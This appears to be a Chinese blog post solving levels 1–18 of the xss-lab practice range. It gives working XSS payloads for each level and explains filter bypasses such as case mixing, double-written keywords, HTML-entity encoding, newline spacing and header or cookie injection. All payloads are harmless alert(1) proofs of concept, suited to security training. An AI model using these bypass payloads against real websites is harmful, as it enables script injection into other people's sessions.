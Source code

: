 ```yaml
---
title: xss-lab通关小记
date: 2021-01-03 11:17:18
author: Na0H
backup: /img/atimg/2.jpg
tags:	
- 靶场
categories:
- 靶场
excerpt: 这是xsslab的通关小记，虽然懂得绕过但是还是不懂实战aaa
description: 这是xsslab的通关小记，虽然懂得绕过但是还是不懂实战aaa
---
```


<!-- more -->





实际构造闭合，另外要对js有一定了解

常用测试语句：

```javascript
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<a href=javascript:alert(1)>
```

## Level1

url为：http://xssaq.com/yx/level1.php?name=test
GET型，源码显示
在传参处插入代码即可：?name=`<script>alert(1)</script>`

## Level2

Url为:http://xssaq.com/yx/level2.php?keyword=test
GET型,输入`<script>alert(/hack11/)</script>`：
![](https://i.loli.net/2021/02/13/DBNOTv9yuzCqMQm.png)

构造闭合，即`"><script>alert(/hack11/)</script>//`
"和>将其之前的语句闭合为value=<"">,//或者<"将后方">注释
![](https://i.loli.net/2021/02/13/GHM4a78wmlZrt1f.png)





## Level3

Value同2，value="">
`<script>alert(/hack11/)</script>`,查看响应，后端将<>过滤了
![](https://i.loli.net/2021/02/13/IBsk2vCh5fR4oFD.png)

查看源码，使用了htmlspecialchars函数
![](https://i.loli.net/2021/02/13/n5wQOlJ4BMG6Xms.png)
![](https://i.loli.net/2021/02/13/FSEZ6xjpqacyXD1.png)


可以使用不带有尖括号的特殊字符进行尝试
如：`' onclick='alert(1)`
（利用了HTML DOM 的onclick事件，点击后触发包含的命令）	

- 第一个单引号的作用：闭合`value='`
- 第二个单引号的作用：与valuer=''的第二个引号对应，构成`onclick='alert(1)'`
  ![](https://i.loli.net/2021/02/13/ifQhPs5CEXYJcbD.png)





## Level4

输入：`"><script>alert(/hack11/)</script>//`		，`<>`被过滤
![](https://i.loli.net/2021/02/13/5XnuHTlBzUYPGSi.png)

类似level3，不同的是单引号换为双引号构造闭合：
`" onclick="alert(1)`
![](https://i.loli.net/2021/02/13/hVZxg39tKsEAfpG.png)


## Level5

- 尝试 `"><script>alert(/hack11/)</script><"`，发现script被过滤
  ![](https://i.loli.net/2021/02/13/fwqic3VlrZvYRz2.png)

- 尝试`" onclick="alert(1)`，发现on被过滤
  ![](https://i.loli.net/2021/02/13/lLNBKGCsAtcQom8.png)

- 最终poc：`"><a href=javascript:alert(1)><"` 
  ![](https://i.loli.net/2021/02/13/2QKFvDzJmacTxYS.png)
  点击即可触发	
  ![](https://i.loli.net/2021/02/13/YLMlUZ6IVq3mwtj.png)

## Level6

- 构造 `<script>alert(1)</script>`	，`script`被过滤
  ![](https://i.loli.net/2021/02/13/mkcMn8bqDWVdLpg.png)

- 构造 `<img src=x onerror=alert(1)>`  ,`src`,`on`被过滤
  ![](https://i.loli.net/2021/02/13/h4gtFHRDqI5KBpf.png)

- 构造 `<a href=javascript:alert(1)>`	 ，`href`被过滤
  ![](https://i.loli.net/2021/02/13/yCrAILKH3dzEfgl.png)


- 最终poc1：
  `"><a Href=javascript:alert(1)><"` 进行大小写绕过
  ![](https://i.loli.net/2021/02/13/PDRVBjso12MxYXH.png)
  ![](https://i.loli.net/2021/02/13/ZJ73fWwcuYhzxFe.png)


- 最终poc2：
  `" ONclick="alert(1)`，其他亦同
  ![](https://i.loli.net/2021/02/13/ejVWHLoqZrpixaf.png)


- 源码：过滤部分关键字，没有对大小写进行针对
  ![](https://i.loli.net/2021/02/13/Lo31XaGHvIMRitw.png)


## Level7

- 老四样测试，script、src、on、href皆被置换为空

```javascript
<script>alert(1)</script> 
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<a href=javascript:alert(1)>
```

![](https://i.loli.net/2021/02/13/8CW54NmTldBEvLa.png)
![](https://i.loli.net/2021/02/13/zZEaPMpcVQT5LCt.png)
![](https://i.loli.net/2021/02/13/RfE3meS25jqy4oz.png)
![](https://i.loli.net/2021/02/13/qMYmV7ZT8KC1t2J.png)

- 尝试大小写绕过，会将输入全部转换为小写，在匹配关键词置换为空
- poc(双写绕过)：
  `"><a hrhrefef=javascriscriptpt:alert(1)><"`
  ![](https://i.loli.net/2021/02/13/wq1KlSz2TGdJ6DR.png)
  ![](https://i.loli.net/2021/02/13/4rtTgZfAanjWYc7.png)


- 源码：过滤部分关键字：strtolower把所有字符转换为小写再进行过滤

![](https://i.loli.net/2021/02/13/tMjuFApHsYIP7xc.png)


## Level8

- '添加友情链接'，应为DOM型xss
  `<a href=javascript:alert(1)>`：
  href，javascript都被过滤，大小写和双写绕过都失效
  ![](https://i.loli.net/2021/02/13/okHQ72fMaguFmEr.png)

- 尝试编码绕过
  `javascript:alert(1)`
  ![](https://i.loli.net/2021/02/13/4NfeLIc6BguKdrZ.png)

- Burpsuite编码

```javascript
&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;	
```

![](https://i.loli.net/2021/02/13/jyH9wteMQIm2xhD.png)

## Level9

- DOM型，基于Level8多了一个判定，查看源码，需在构造语句后加上`http://`
  即：

```javascript
&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;//http://
```

- 源码：
  同8，先将关键字替换，再判断变量后是否有`http://`
  Strpos($str,’http://’)：查找http://在字符串中第一次出现的位置
  ![](https://i.loli.net/2021/02/13/WqVb1EzPLfopyCx.png)


## Level10

- `<script>alert(1)</script>`		过滤了`<>`，尝试编码不能绕过，无法构造事件触发xss、无法利用属性的javascript协议、无法利用css注入
  ![](https://i.loli.net/2021/02/13/rkp8zyZWtIailOT.png)

- 存在三个input变量，尝试提交
  源码：`<input name="t_sort"  value=" '.$str33.' " type="hidden">`
  Payload：`1&t_sort=  " type="text" onclick="alert(1)`
  ![](https://i.loli.net/2021/02/13/oKn6UHsgJPMIrqj.png)
  `1&t_sort=xxx` 将xxx作为t_sort的value输入
  `" type="text" onclick="alert(1) `是置入value	的语句
  `type="text"` 形成可点击的文本框，方便触发其后的onclick="alert(1)

## Level11

- 查看源码
  仅t_sort和t_ref的可传参，
  `$str11=$_SERVER['HTTP_REFERER'];//`将payload从http头的referer栏获取
  ![](https://i.loli.net/2021/02/13/2CutM5RFrlQoBhX.png)

- 一．
  浏览器插件修改referfer，`value=1&t_sort=  " type="text" onclick="alert(1)`
  ![](https://i.loli.net/2021/02/13/JVetGAoDWhNuriS.png)

- 二．
  利用burpsuite在跳转至该网页时抓包，修改其中`referer`为`poc`即可
  `1&t_sort=  " type="text" onclick="alert(1)`
  ![](https://i.loli.net/2021/02/13/brkZhBiJusDGMmT.png)

## Level12

- 输入：`" type="text" onclick="alert(1)`
  ![](https://i.loli.net/2021/02/13/FOBly6kYp5hQAxZ.png)
  ![](https://i.loli.net/2021/02/13/8EiaVFOuep1N5nZ.png)


- 从标头中的User-Agent中获取
  User-Agent：`" type="text" onclick="alert(1)`
  ![](https://i.loli.net/2021/02/13/W5JizDwSFlqy62Y.png)


## Level13

如图
![](https://i.loli.net/2021/02/13/EZn9j6qgMdRUGXS.png)

- 查看标头
  ![](https://i.loli.net/2021/02/13/WDyMe6XP7w9vTs8.png)



- 修改cookie
  Cookie：`user="type="text" onclick="alert(1)"`

![](https://i.loli.net/2021/02/13/dsWx4JaFARcfgEp.png)


## Level14

百度一下：本关因iframe调用的文件地址失效，无法进行测试。要考的应该是通过修改	iframe调用的文件来实现xss注入

## Level15

- ng-include指令一般用于包含外部的 HTML 文件，ng-include属性的值可以是一个表达	式，返回一个文件名，但是默认情况下，包含的文件需要包含在同一个域名下。
  ![](https://i.loli.net/2021/02/13/fTDSb42LBXuZdjy.png)

- 可以包含一个有漏洞的页面进行破解
  eg:	`level15.php?src='name=<script>alert(1)</script>'`

## Level16

- `<script>alert(1)</script>`
  ![](https://i.loli.net/2021/02/13/NBiRrWhDmXpkYeZ.png)

- 空格、反斜杠、script都被str_replace函数替换成&nbsp
  ![](https://i.loli.net/2021/02/13/vw2HtkGNqFW1ylD.png)

- HTML中可以将%0a或者%0D当成空格使用，故可构造
  Poc：`<svg%0aonload=alert(1)>`
  ![](https://i.loli.net/2021/02/13/WOAj6vXTerNdChY.png)


## Level17

- Url中：level17.php?arg01=123&arg02=321
  将arg01和arg02的结果用=拼接
  ![](https://i.loli.net/2021/02/13/H7Wjb1OS5twXYq2.png)

- 可利用此构造：`onclick=javascript:alert(/xss/)`
  Poc：`level17.php?arg01= onmousemove&arg02=javascript:alert(/xss/)`
  ![](https://i.loli.net/2021/02/13/CmdPrh5uHVcEkyG.png)

## Level18

同17
![](https://i.loli.net/2021/02/13/DUo8dhKymzrpJEQ.png)



